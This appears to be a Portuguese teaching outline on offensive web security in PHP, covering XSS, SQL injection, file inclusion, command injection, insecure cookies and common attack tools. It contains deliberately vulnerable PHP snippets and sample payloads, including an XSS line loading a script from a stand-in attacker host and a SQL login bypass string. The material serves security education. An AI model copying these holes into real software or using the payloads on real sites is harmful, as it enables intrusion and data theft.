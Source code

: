 # Segurança ofensiva

### Introdução
- Blackhats x Whitehats
- Mercado de segurança da informação

### XSS
- Refletido:
```php
# http://localhost/xss.php?mensagem=<script>alert('XSS');</script>
# http://localhost/xss.php?mensagem=<marquee><h1>XSS</h1></marquee>
# http://localhost/xss.php?mensagem=<script src=http://atacante.segphp4linux.com.br/domal.js></script>

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- Residente:
```php
# http://localhost/xss_residente.php?mensagem=<script>alert('XSS');</script>

session_start();

if (isset($_GET['variavel'])) {
    $_SESSION['variavel'] = $_GET['variavel'];
}

echo isset($_SESSION['variavel']) ? $_GET['variavel'] : "" ;
```

- XSHM - Cross-Site History Manipulation
```php
/*
http://vitima.segphp4linux/xss_xshm.php?mensagem=<script>alert(history.length);</script>
*/

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- [CSRF - Cross-Site Request Forgery](https://pt.wikipedia.org/wiki/Cross-site_request_forgery)

- [Click Jacking](http://sectheory.com/clickjacking.htm) - [exemplo](http://koto.github.io/blog-kotowicz-net-examples/cursorjacking/)

### [SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)
- [Comum](scripts/sqli/sqlinjection.php)
```php
# login=' or '1'='1
# senha=' or '1'='1

if ($_POST) {
    $query = "SELECT * FROM usuarios WHERE user='$user' AND pass='$pass' ";

    echo $query;
}
```
- Union inband
- Batched
- Blind
- Error Based

### [LDAP Injection](https://www.owasp.org/index.php/LDAP_Injection_Prevention_Cheat_Sheet)

### [Insecure Cookie Handling](http://kb.enprobe.io/vulnerabilities/insecure-cookies.html)
-- Exemplo
```php
if ($_GET['login'] == 'naousehardcode' && $_GET['senha'] == 'naousehardcode') {
    setcookie('autenticado', 1);
}

if (!$_COOKIE['autenticado'] == 1) {
    die('Usuario nao autenticado!');
}
```

- [RFI/LFI - Remote/Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
-- Exemplo
```php
require($_GET['modulo']);
```

- [Command Injection](https://www.owasp.org/index.php/Command_Injection)
-- Exemplo
```php
system($_GET['comando']);
```

- [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)

- [Web Crawlers](https://pt.wikipedia.org/wiki/Rastreador_web)
-- Exemplo
```php
# Exemplo: https://stackoverflow.com/a/2313146

function crawl_page($url, $depth = 5) {
    if($depth > 0) {
        $html = file_get_contents($url);

        preg_match_all('~<a.*?href="(.*?)".*?>~', $html, $matches);

        foreach($matches[1] as $newurl) {
            crawl_page($newurl, $depth - 1);
        }

        file_put_contents('results.txt', $newurl."\n\n".$html."\n\n", FILE_APPEND);
    }
}

crawl_page('http://www.domain.com/index.php', 5);
```

- [Session fixation/hijacking](https://www.owasp.org/index.php/Session_fixation)

### [Brute force](https://pt.wikipedia.org/wiki/Ataque_de_for%C3%A7a_bruta)

### [Man In The Middle](https://www.owasp.org/index.php/Man-in-the-middle_attack)

### [DDOS](https://pt.wikipedia.org/wiki/Ataque_de_nega%C3%A7%C3%A3o_de_servi%C3%A7o)

### Algumas Ferramentas
- [Kali Linux](https://www.kali.org/)
- [Metasploint](https://www.metasploit.com/)
- [nmap](https://nmap.org/)
- [tcpdump](https://www.tcpdump.org/tcpdump_man.html)
- [Wireshark](https://www.wireshark.org/)
- [Ettercap](http://www.ettercap-project.org/ettercap/)
- [SQLMap](http://sqlmap.org/)
- [PHP Crawler](http://phpcrawl.cuab.de/)
- [John the Ripper](http://www.openwall.com/john/)